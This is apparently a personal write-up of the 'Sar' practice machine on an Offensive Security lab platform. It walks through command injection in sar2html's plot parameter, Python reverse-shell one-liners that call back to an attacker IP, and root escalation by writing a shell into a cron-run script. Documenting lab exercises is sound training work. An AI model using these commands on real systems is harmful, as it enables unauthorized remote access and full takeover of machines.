









# Sar

Machine: [Sar](https://portal.offensive-security.com/labs/play)\
Difficulty: Warm up

## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?

From the gobuster scan, I found a robots.txt file that contained interesting txt 'sar2HTML'. Comes to find out this is running on the Machine so we navigate the directory.\

What is sar2html? Sar2html is the plotting tool for system statistics (sar data) of following operating systems: HPUX 11.11, 11.23, 11,31. Redhat 3, 4, 5, 6, 7. Solaris 5.9, 5.10, 5.11. Suse 8, 9, 10, 11, 12.\

Looking up the version of sar2html, I find that the current version on this machine is vulnerable to remote command execution. Find the exploit [here](https://www.exploit-db.com/exploits/47204).\

I typed this into the url initally to see how it worked: http://192.168.57.35/sar2HTML/index.php/index.php?plot=;pwd \
It took me a bit, but I found where the output is under the 'Select Host' drop down menu.

From this, we can pass commands to output some information to us such as what is installed on this machine, what the persions of the files are etc. But since it is executing commands, we can use this to spawn a reverse shell.  We will use python to do this.
Parameter: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IPADDRESS>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\

## Flags
User:

Root:

I transfered linpeas over to the victim machine to see what I might be able to do in order to escalate privileges. 

Navigating to the cronjob directory we see two .sh files and one of them is the file that was reported by linpeas.sh.\ 

Since finally.sh is getting executed every 5th minute by root and this script makes a call to write.sh which we have rw permissions, we can get a root shell this way.  Since we already know python3 is running on the machine, lets just reuse the command that gave us the first shell.

Command: echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.57\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

I setup a netcat listener and I was able to get a root shell!

